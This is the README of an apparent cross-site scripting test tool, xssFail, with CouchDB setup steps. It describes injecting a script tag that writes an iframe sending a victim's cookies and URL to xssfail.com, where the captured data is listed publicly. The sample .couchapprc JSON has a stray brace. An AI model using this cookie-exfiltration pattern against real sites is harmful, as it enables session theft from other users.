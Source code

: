 ## Who is this project for?

If you know about [xss(Cross-site scripting)](http://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability, and want to check whether you web app is secure enough, this project is for YOU!
There are 2 options:

* Install standalone app to avoid losing sensitive data.
* Use online app - [xssFail.com](http://xssfail.com)

## How does it work?

1. You inject script: <script src="..."></script>
into target text field and save it. Any text field could be used (Product name, User name, Login, Address etc.). Let's say you use "Product" field.
2. UserA opens page with list of products with product you've injected.
3. If html engine doesn't encode strings UserA will get javascript executed.
4. Injected javascript code writes (document.write) the following tag: 
    &lt;iframe src="http://xssfail.com/form?param1=&param2=&paramN=" /&gt;
where param1, param2, paramN - all information about UserA (including browser cookies, site url etc.)
5. After iframe is loaded it executes script which saves info from URL (param1, param2, param3) into CouchDb database.
6. You can go to xssfail.com and search for "WINNERS".

## How to install standalone app?

### Before you start

Before you start using this app, it's necessary to:
1. [Install CouchDB](http://wiki.apache.org/couchdb/Installation) v.1.1.x or greater. More info about couchDB [here](http://wiki.apache.org/couchdb/).
2. [Install CouchApp](http://couchapp.org/page/installing). More info about couchApp [here](http://couchapp.org/page/index).

CouchApps are web applications which can be served directly from [CouchDB](http://couchdb.apache.org).
This gives them the nice property of replicating just like any other data stored in CouchDB.
They are also simple to write as they can use the built-in jQuery libraries and plugins that ship with CouchDB.

### Deploying this app

Assuming you just cloned this app from git,
and you have changed into the app directory in your terminal, you want to push it to your CouchDB with the CouchApp command line tool, like this:

    couchapp push . http://name:password@localhost:5984/xss

If you don't have a password on your CouchDB (admin party) you can do it like this (but it's a bad, idea, set a password):

    couchapp push . http://localhost:5984/xss

If you get sick of typing the URL, you should setup a `.couchapprc` file in the root of your directory.
Remember not to check this into version control as it could have passwords in it.

The `.couchapprc` file should have contents like this:

    {
        "default" : {
          "db" : "http://localhost:5984/xss"
        }
      }
    }

Now that you have the `.couchapprc` file set up, you can push your app to the CouchDB as simply as:

    couchapp push

This pushes to the `default` as specified.

go to [http://localhost:5984/xss/_design/api/_views/index](http://localhost:5984/xss/_design/api/_views/index) to open default UI page
go to [http://localhost:5984/_utils](http://localhost:5984/_utils) to open database UI manager - [http://wiki.apache.org/couchdb/Getting_started_with_Futon](Futon)

